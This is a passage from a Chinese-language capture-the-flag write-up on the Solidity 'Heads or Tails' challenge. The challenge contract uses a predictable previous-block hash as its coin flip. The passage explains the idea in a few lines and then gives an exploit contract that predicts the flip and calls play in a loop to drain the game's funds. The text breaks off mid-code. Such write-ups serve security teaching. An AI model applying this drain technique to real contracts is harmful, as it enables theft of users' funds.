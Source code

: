         }
    }
    ```

---

## Heads or Tails

??? question "题目合约"
    ```solidity
    pragma solidity 0.4.24;

    import "../CtfFramework.sol";
    import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

    contract HeadsOrTails is CtfFramework{

        using SafeMath for uint256;

        uint256 public gameFunds;
        uint256 public cost;

        constructor(address _ctfLauncher, address _player) public payable
            CtfFramework(_ctfLauncher, _player)
        {
            gameFunds = gameFunds.add(msg.value);
            cost = gameFunds.div(10);
        }
        
        function play(bool _heads) external payable ctf{
            require(msg.value == cost, "Incorrect Transaction Value");
            require(gameFunds >= cost.div(2), "Insufficient Funds in Game Contract");
            bytes32 entropy = blockhash(block.number-1);
            bytes1 coinFlip = entropy[0] & 1;
            if ((coinFlip == 1 && _heads) || (coinFlip == 0 && !_heads)) {
                //win
                gameFunds = gameFunds.sub(msg.value.div(2));
                msg.sender.transfer(msg.value.mul(3).div(2));
            }
            else {
                //loser
                gameFunds = gameFunds.add(msg.value);
            }
        }

    }
    ```

同样是计算伪随机数，每次 play 需要 0.1 ether，并且从题目合约账户中转出 0.05 ether 作为奖励。因此需要调用 20 次 play 来转出账户中的 2 ether

同样需要在部署合约后调用题目合约的 ctf_challenge_add_authorized_sender 函数来将攻击合约地址加入白名单。并且做完之后 selfdestruct 来转回攻击合约中的 3 ether 会比较好

???+ done "exp"
    ```solidity
    contract Exploit {
        HeadsOrTails challenge;
        constructor(address addr) public {
            challenge = HeadsOrTails(addr);
        }
        function exp() public payable {
            bytes32 entropy = blockhash(block.number - 1);
            bytes1 coinFlip = entropy[0] & 1;
            for (int i = 0; i < 20; i++) {
                if (coinFlip == 1) {
                    challenge.play.value(0.1 ether)(true);
                } else {
                    challenge.play.value(0.1 ether)(false);